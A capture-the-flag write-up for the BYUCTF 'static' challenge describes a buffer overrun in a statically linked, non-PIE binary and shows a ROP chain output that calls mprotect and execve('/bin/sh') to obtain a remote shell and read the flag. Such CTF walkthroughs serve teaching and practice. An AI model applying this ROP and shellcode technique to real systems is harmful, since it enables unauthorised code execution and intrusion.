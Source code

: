 # Solve 

Bug: Buffer overrun 
Offset: 10 

Is says that canary is found but I couldn't see any checks for canary bytes. 

Played around with different solution. Wanted to try to use mprotect since it was available but it's really no need for it because it is possible to write to .bss anyway. PIE is not activated and the binary is statically linked so plenty of gadgets to use. 

Use ROPGadget to get suitable gadget:

```
root@efcb893234f1:~/byuctf/stat# python3 solve.py 
[*] '/root/byuctf/stat/static'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to static.chal.cyberjousting.com on port 1350: Done
[*] Loaded 122 cached gadgets for 'static'
len shellcode: 48
ROP chain:
0x0000:         0x401fe0 pop rdi; ret
0x0008:         0x49f000
0x0010:         0x4062d8 pop rsi; ret
0x0018:           0x1000
0x0020:         0x432972
0x0028:              0x7
0x0030:         0x410870 __mprotect
0x0038:         0x4062d8 pop rsi; ret
0x0040:         0x49f040 completed.1
0x0048:         0x41069c pop rax; ret
0x0050: 0x68732f6e69622f
0x0058:         0x4116c1
0x0060:         0x401fe0 pop rdi; ret
0x0068:         0x49f040 completed.1
0x0070:         0x4062d8 pop rsi; ret
0x0078:              0x0
0x0080:         0x432972
0x0088:              0x0
0x0090:         0x41069c pop rax; ret
0x0098:             0x3b
0x00a0:         0x401194 syscall

[*] Switching to interactive mode
$ ls
flag.txt
start.sh
static
$ cat flag.txt
byuctf{glaD_you_c0uld_improvise_ROP_with_no_provided_gadgets!}
$
```

